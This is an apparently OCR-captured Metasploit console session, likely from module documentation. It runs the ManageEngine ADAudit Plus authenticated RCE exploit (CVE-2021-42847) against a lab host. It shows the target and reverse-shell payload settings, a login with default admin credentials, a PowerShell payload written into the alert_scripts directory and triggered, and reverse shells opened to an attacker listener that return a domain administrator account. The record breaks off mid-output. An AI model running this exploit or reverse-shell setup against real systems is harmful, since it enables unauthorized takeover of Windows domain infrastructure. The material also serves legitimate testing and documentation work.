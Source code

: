 ```
   RHOSTS       192.168.204.136             yes       The target host(s), see https://docs.metasploit.com/docs/using-metasploit/basics/using-metasploit.html
   RPORT        8081                        yes       The target port (TCP)
   SSL          false                       no        Negotiate SSL/TLS for outgoing connections
   TARGETURI    /                           yes       The base path to ManageEngine ADAudit Plus
   USERNAME     admin                       yes       Username to authenticate with
   VHOST                                    no        HTTP server virtual host


Payload options (cmd/windows/powershell_reverse_tcp):

   Name          Current Setting  Required  Description
   ----          ---------------  --------  -----------
   LHOST         192.168.204.128  yes       The listen address (an interface may be specified)
   LOAD_MODULES                   no        A list of powershell modules separated by a comma to download over the web
   LPORT         4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Windows Command



View the full module info with the info, or info -d command.

msf6 exploit(windows/http/manageengine_adaudit_plus_authenticated_rce) > exploit

[*] Started reverse TCP handler on 192.168.204.128:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
[*] Using configured authentication domain alias DAFOREST.
[*] Attempting to authenticate to ADAuditPlus Authentication with username: admin and password: admin
[*] Found 1 configured domain(s): daforest.com
[+] Successfully authenticated
[+] The target appears to be vulnerable. The target is ADAudit Plus 7005 and the endpoint for CVE-2021-42847 exists.
[*] Attempting to authenticate again in order to retrieve the required cookies.
[*] Attempting to create an alert profile
[*] Attempting to write the payload to /alert_scripts/akbgtwuva.ps1
[+] Successfully wrote the payload to /alert_scripts/akbgtwuva.ps1 in the ManageEngine ADAudit Plus install directory
[+] Successfully created alert profile VA8dDG52p5
[*] Attempting to trigger the payload via an authentication attempt for domain DAFOREST using incorrect credentials.
[*] Received expected reply when trying to trigger the payload. Let's hope we get a shell...
[!] Make sure to manually cleanup the akbgtwuva.ps1 file from /alert_scripts/ in the ManageEngine ADAudit Plus install directory
[*] Powershell session session 2 opened (192.168.204.128:4444 -> 192.168.204.136:53465) at 2023-05-08 12:01:55 -0500
[*] Powershell session session 1 opened (192.168.204.128:4444 -> 192.168.204.136:53464) at 2023-05-08 12:01:55 -0500
[*] Attempting to delete alert profile VA8dDG52p5
[+] Successfully deleted alert profile VA8dDG52p5

PS C:\Program Files\ManageEngine\ADAudit Plus\bin> whoami
daforest\administrator
PS C:\Program Files\ManageEngine\ADAudit Plus\bin> pwd

Path                                          
```